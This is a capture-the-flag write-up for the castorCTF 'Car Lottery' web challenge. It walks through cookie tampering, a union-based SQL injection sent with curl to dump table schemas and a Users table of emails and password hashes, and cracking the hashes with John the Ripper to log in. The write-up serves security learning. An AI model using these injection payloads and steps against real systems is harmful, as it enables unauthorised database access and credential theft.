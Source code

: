 **CAR LOTTERY** 


**Category:** Web
**Concepts:** sqli, union based sqli

**Problem Statement:**
http://web1.cybercastors.com:14435

**Hints**
None


![image](../images/cl1.png)

The website greets you with the following message:

```
Welcome!!

Here you get to test your luck for a chance to win a car!!

To win the car you must be the 3123213rd visitor, to try your luck just refresh your browser!
```
I realized that it is taking the visitor number from a plain text cookie(subtracts 35 from the cookie number). So I changed the cookie to "client=3123248" and I was greeted with the page in the picture above.

Now, selecting any option would change the url by `id={1,2 or 3}` through POST. So I popped out curl and started making requests with sql injections.
PoC (" ' or '1'='1' --") worked and gave me all the cars' details. But there was nothing interesting in that. So I went ahead and started doing Union Based sql injetions to try and get the table schema and other tables in the database.

QUERY: ` AND 1=2 UNION SELECT 1, COLUMN_NAME , TABLE_NAME , TABLE_SCHEMA , 4 from INFORMATION_SCHEMA.COLUMNS`


```console
curl -X POST "http://web1.cybercastors.com:14435/search?id=1%20%41%4e%44%20%31%3d%32%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%31%2c%20%43%4f%4c%55%4d%4e%5f%4e%41%4d%45%20%2c%20%54%41%42%4c%45%5f%4e%41%4d%45%20%2c%20%54%41%42%4c%45%5f%53%43%48%45%4d%41%20%2c%20%34%20%66%72%6f%6d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%43%4f%4c%55%4d%4e%53"
```
Here, I have url-encoded the Query above.

Looking through the tables, I found out that the database in use was 'cars' and it had another table called 'Users'.
Selected this table and it gave me 4 creds.

```
admin@cybercastors.com      cf9ee5bcb36b4936dd7064ee9b2f139e
admin@powerpuffgirls.com    fe87c92e83ff6523d677b7fd36c3252d
jeff@homeaddress.com        d1833805515fc34b46c2b9de553f599d 
moreusers@leakingdata.com   77004ea213d5fc71acf74a8c9c6795fb
```
I used [John the ripper](https://github.com/magnumripper/JohnTheRipper) to crack these and found out the plain text passwords:
```
naruto
powerpuff
pancakes
fun
```
After this I was stuck for a while, didn't know where to use these creds. Then from the hints by the admin on discord, I figured out that the uri where these creds were to be used was '/dealer'. Without the hints, you could do it with [Gobuster](https://github.com/OJ/gobuster). So the first email and the corresponding password worked and I got my flag!

**FLAG:** castorCTF{daT4B_3n4m_1s_fuN_N_p0w3rfu7}


